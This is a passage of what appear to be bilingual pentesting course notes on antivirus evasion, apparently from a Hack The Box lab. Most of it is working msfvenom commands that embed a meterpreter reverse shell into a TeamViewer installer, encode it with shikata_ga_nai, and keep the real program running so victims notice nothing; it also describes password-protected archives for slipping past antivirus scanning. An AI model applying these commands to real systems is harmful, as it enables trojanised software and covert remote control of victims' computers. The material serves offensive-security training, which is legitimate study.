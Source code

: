 Voici un extrait de code montrant comment msfvenom peut intégrer une charge utile dans n’importe quel fichier exécutable :

{% code title="EVASION" overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```
{% endcode %}

```shell-session
mrroboteLiot@htb[/htb]$ ls

Pictures-of-cats.tar.gz  TeamViewer_Setup.exe  Cake_recipes
```

For the most part, when a target launches a backdoored executable, nothing will appear to happen, which can raise suspicions in some cases. To improve our chances, we need to trigger the continuation of the normal execution of the launched application while pulling the payload in a separate thread from the main application. We do so with the `-k` flag as it appears above. However, even with the `-k` flag running, the target will only notice the running backdoor if they launch the backdoored executable template from a CLI environment. If they do so, a separate window will pop up with the payload, which will not close until we finish running the payload session interaction on the target.

***

### <mark style="color:red;">Archives</mark>

Archiver une information, comme un fichier, un dossier, un script, un exécutable, une image ou un document, et y ajouter un mot de passe permet de contourner de nombreuses signatures antivirus courantes aujourd'hui. Cependant, l'inconvénient de cette méthode est que ces fichiers apparaîtront dans le tableau de bord des alertes de l'antivirus avec une notification indiquant qu'ils n'ont pas pu être analysés, car ils sont verrouillés par un mot de passe. Un administrateur peut alors choisir d'inspecter ces archives manuellement pour déterminer si elles sont malveillantes ou non.

<mark style="color:green;">**Generating Payload**</mark>

{% code title="Generating Payload.sh" overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
```
{% endcode %}

```shell-session
mrroboteLiot@htb[/htb]$ cat test.js

�+n"����t$�G4ɱ1zz��j�V6����ic��o�Bs>��Z*�����9vt��%��1�
<...SNIP...>
�Qa*���޴��RW�%Š.\�=;.l�T���XF���T��
```

If we check against VirusTotal to get a detection baseline from the payload we generated, the results will be the following.

<mark style="color:green;">**VirusTotal**</mark>
